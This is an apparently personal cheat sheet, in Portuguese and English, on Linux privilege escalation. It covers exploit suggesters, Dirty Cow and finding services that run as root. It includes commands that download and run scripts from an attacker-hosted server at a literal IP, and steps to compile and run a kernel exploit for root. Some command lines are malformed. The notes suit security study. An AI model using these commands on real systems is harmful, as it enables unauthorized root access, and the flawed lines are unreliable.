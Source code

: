 ```
# Attacker: python -m http.server

# Victim: wget http://10.6.38.189:8000/les.sh | les.sh
```

### Linux Priv Checker

`sudo python setup.py install`

```
# Attacker: python -m http.server

# Victim: wget http://10.6.38.189:8000/linuxprivchecker.py
python3 -m linuxprivchecker -w -o linuxprivchecker.log
```

___

# Kernel Exploits

[Kernel Exploits](https://github.com/lucyoa/kernel-exploits)

![[Pasted image 20230202152827.png]]

`uname -a`

`Google Linux debian 2.6.32-5-amd64 exploit`

`searchsploit linux kernel 2.6.32 priv esc`

-  É possível rodar o linux-exploit-suggester com o seguinte comando: `./les -k 2.6.32`

### Dirty Cow

[Dirty Cow](https://www.exploit-db.com/exploits/40839)

```
gcc -pthread dirty.c -o dirty -lcrypt

# or gcc -pthread c0w.c -o cow

./dirty" or ./dirty my-new-password 

passwd
# now we are root
```

___

# Services Exploits

- Similares aos exploits de kernel
- O comando `ps aux | grep "^root"` serve para encontrar processos executados como root
- Executando o programa com `<programa> --version` identifica a versão
- Se for debian, da pra rodar também `dpkg -l | grep <program>`. Em rpm, executar `rpm -qa | grep <programa>`
- [Linux Smart Enumeration](https://github.com/diego-treitos/linux-smart-enumeration) -> Ajuda a verificar esses serviços
